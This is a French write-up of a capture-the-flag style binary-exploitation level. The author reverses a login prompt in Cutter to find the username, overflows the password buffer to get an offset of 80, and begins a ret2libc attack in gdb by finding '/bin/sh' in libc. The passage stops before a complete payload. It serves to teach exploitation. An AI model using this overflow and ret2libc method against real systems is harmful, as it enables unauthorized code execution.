 ## Level01

Lorsqu’on lance le programme, celui-ci nous demande un login.

  

On ouvre le programme sur cutter, on trouve que  verify_user_name(); est appelée.

  

On cherche donc dans cette fonction et on trouve une string : “dat_wil”. On essaie alors d’entrer cette string en tant qu’username et cela nous permet d’accéder au champ password.

  

On voit dans cutter une string “admin” qui est comparée. On essaie alors d’entrer “admin” en password, mais ça ne fonctionne pas.

  

Essayons de buffer overflow le fgets du password :

  

    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

    Program received signal SIGSEGV, Segmentation fault.
    0x37634136 in ?? ()

0x37634136 nous donne un offset de 80.

Le problème c’est qu’on ne voit pas de /bin/sh dans le programme. On va donc essayer de la trouver avec une ret2libc attack.

    (gdb) b *main+173
    Breakpoint 1 at 0x804857d
    
    (gdb) info proc map
    process 1857
    Mapped address spaces:
    Start Addr End Addr Size Offset objfile
    0x8048000 0x8049000 0x1000 0x0 /home/users/level01/level01
    0x8049000 0x804a000 0x1000 0x0 /home/users/level01/level01
    0x804a000 0x804b000 0x1000 0x1000 /home/users/level01/level01
    0xf7e2b000 0xf7e2c000 0x1000 0x0
    0xf7e2c000 0xf7fcc000 0x1a0000 0x0 /lib32/libc-2.15.so
    0xf7fcc000 0xf7fcd000 0x1000 0x1a0000 /lib32/libc-2.15.so
    0xf7fcd000 0xf7fcf000 0x2000 0x1a0000 /lib32/libc-2.15.so
    0xf7fcf000 0xf7fd0000 0x1000 0x1a2000 /lib32/libc-2.15.so
    0xf7fd0000 0xf7fd4000 0x4000 0x0
    0xf7fd8000 0xf7fdb000 0x3000 0x0
    0xf7fdb000 0xf7fdc000 0x1000 0x0 [vdso]
    0xf7fdc000 0xf7ffc000  0x20000 0x0 /lib32/ld-2.15.so
    0xf7ffc000 0xf7ffd000 0x1000  0x1f000 /lib32/ld-2.15.so
    0xf7ffd000 0xf7ffe000 0x1000  0x20000 /lib32/ld-2.15.so
    0xfffdd000 0xffffe000  0x21000 0x0 [stack]

    (gdb) find 0xf7e2b000,0xf7ffdd00,"bin/sh"
    (gdb) 0xf7f897ed
		1 pattern found.
    (gdb) info function system

